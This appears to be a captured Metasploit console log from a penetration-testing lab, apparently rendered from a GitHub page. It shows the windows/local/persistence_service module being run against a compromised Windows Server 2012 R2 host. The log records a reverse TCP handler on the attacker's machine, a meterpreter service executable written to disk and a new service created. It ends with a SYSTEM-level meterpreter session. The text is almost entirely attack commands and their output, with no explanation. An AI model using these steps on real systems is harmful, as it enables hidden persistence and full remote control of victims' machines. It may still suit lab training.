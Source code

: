 ```bash
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.2:4444 -> 10.0.27.39:49234 (10.0.27.39)

msf6 exploit(windows/local/persistence_service) > set LPORT 4433
LPORT => 4433
msf6 exploit(windows/local/persistence_service) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4433 
[*] Running module against WIN-OMCNBKR66MN
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\1\hQpQq.exe
[*] Creating service rozqeeR
[*] Sending stage (175174 bytes) to 10.0.27.39
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/WIN-OMCNBKR66MN_20230704.3458/WIN-OMCNBKR66MN_20230704.3458.rc
[*] Meterpreter session 2 opened (10.10.16.2:4433 -> 10.0.27.39:49268) at 2023-07-04 07:34:59 +0530

meterpreter >
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
Background session 2? [y/N]  
msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.2:4444 -> 10.0.27.39:49234 (10.0.27.39)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-OMCNBKR66MN            10.10.16.2:4433 -> 10.0.27.39:49268 (10.0.27.39)

msf6 exploit(windows/local/persistence_service) > sessions -K
[*] Killing all sessions...
[*] 10.0.27.39 - Meterpreter session 1 closed.
[*] 10.0.27.39 - Meterpreter session 2 closed.
msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

No active sessions.

msf6 exploit(windows/local/persistence_service) > exit
root@attackdefense:~#
```